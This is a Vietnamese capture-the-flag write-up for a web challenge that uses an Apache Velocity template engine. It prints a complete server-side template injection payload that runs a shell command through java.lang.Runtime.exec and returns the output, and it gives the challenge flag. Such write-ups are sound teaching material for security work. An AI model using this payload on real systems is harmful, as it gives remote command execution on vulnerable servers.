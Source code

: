 # Đề bài:
![Screenshot (409)](https://github.com/ductohno/ctf_wup/assets/152991010/b3bc7412-ed82-482c-8bf3-2f4a3597374a)

Khi truy cập vào trang web, ta thấy 1 giao diện cho phép tìm kiếm cái gì đó

![Screenshot (410)](https://github.com/ductohno/ctf_wup/assets/152991010/92e06aae-bfe4-41b2-9053-a703943ff211)

# Hãy chú ý tới ảnh sau:

![Screenshot (411)](https://github.com/ductohno/ctf_wup/assets/152991010/a4580cef-b8f1-4f8c-8d7e-41944e1101b1)

Velocity là 1 template framework, và do đó 100% lỗ hổng của bài này là ssti velocity
Biết thế nên tôi lập tức vác xác đi tìm payload
Tuy nhiên payload ở cả payloadallthething và hacktrick đều ko hiệu quả

Và rồi, tôi đã tìm được thứ cần tìm:
https://github.com/epinna/tplmap/issues/9

# Payload:
```
#set($engine="string")#set($run=$engine.getClass().forName("java.lang.Runtime"))#set($runtime=$run.getRuntime())#set($proc=$runtime.exec("ls -al"))#set($null=$proc.waitFor())#set($istr=$proc.getInputStream())#set($chr=$engine.getClass().forName("java.lang.Character"))#set($output="")#set($string=$engine.getClass().forName("java.lang.String"))#foreach($i in [1..$istr.available()])#set($output=$output.concat($string.valueOf($chr.toChars($istr.read()))))#end$output
```

Hỡi ôi và chiếc payload giời cứu, và flag xuất hiện

![Screenshot (412)](https://github.com/ductohno/ctf_wup/assets/152991010/2d25eb7f-d812-4675-a3fa-8cdbaefcde76)

## Flag:
```
FUSec{v3l0c1ty_SSTI_1s_34sy_4s_h3ll}
```
